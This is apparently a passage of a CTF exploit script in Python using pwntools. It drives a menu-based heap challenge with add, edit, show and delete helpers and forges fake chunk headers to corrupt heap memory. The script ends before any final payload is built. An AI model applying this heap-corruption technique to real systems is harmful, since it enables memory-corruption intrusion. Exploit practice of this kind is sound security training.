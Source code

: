 ```python

def start():
    if args.LOCAL:
        p = e.process()

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p

p = start()

def add(bufList: list):
    ret = []
    p.sendafter(b">", b'\x01')
    p.send(p32(len(bufList)))
    for s_ in bufList:
        p.send(p32(s_[0])+p32(s_[1])+s_[2])
        ret.append(u32(p.recv(4)))

    p.send(b'\n')
    return ret[0]

def edit(idx, newid, size, buf):
    p.sendafter(b">", b'\x02')
    p.send(
        p32(idx) +
        p32(newid) +
        p32(size) +
        buf
    )
    _ = p.recv(4)
    p.send(b'\n')
    return u32(_)

def show(idx):
    p.sendafter(b">", b'\x04')
    p.send(
        p32(idx)
    )
    p.send(b'\n')

def delete(idx):
    p.sendafter(b">", b'\x05')
    p.send(
        p32(idx)
    )
    p.send(b'\n')

add([(0,  0x20, b'0'*0x20)])
add([(1,  0x20, b'1'*0x20)])
add([(2,  0x600, b'2'*0x600)])

delete(2)
delete(0)

buf = b'0'*(0x100-0x10)+p64(0)+p64(0x31)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(2, 2, 0x68, b'_'*0x68)

buf = b'0'*(0x70)+p64(0)+p64(0x31)
delete(0)
```